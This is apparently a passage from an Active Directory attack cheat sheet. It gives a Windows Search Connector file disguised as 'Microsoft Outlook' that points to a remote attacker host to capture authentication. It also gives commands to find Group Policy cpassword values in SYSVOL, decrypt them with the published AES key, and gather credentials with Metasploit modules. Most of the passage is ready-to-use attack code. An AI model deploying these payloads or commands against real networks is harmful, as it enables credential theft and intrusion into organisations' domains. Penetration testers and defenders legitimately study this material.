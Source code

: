 ### Windows Search Connectors Files

> Windows Search Connectors (.searchConnector-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```


## Passwords in SYSVOL & Group Policy Preferences

Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.

```powershell
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

Decrypt a Group Policy Password found in SYSVOL (by [0x00C651E0](https://twitter.com/0x00C651E0/status/956362334682849280)), using the 32-byte AES key provided by Microsoft in the [MSDN - 2.2.1.1.4 Password Encryption](https://msdn.microsoft.com/en-us/library/cc422924.aspx)

```bash
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

e.g: 
echo '5OPdEKwZSf7dYAvLOe6RzRDtcvT/wCP8g5RqmAgjSso=' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

echo 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

### Automate the SYSVOL and passwords research

* `Metasploit` modules to enumerate shares and credentials
    ```c
    scanner/smb/smb_enumshares
    post/windows/gather/enum_shares
    post/windows/gather/credentials/gpp
    ```

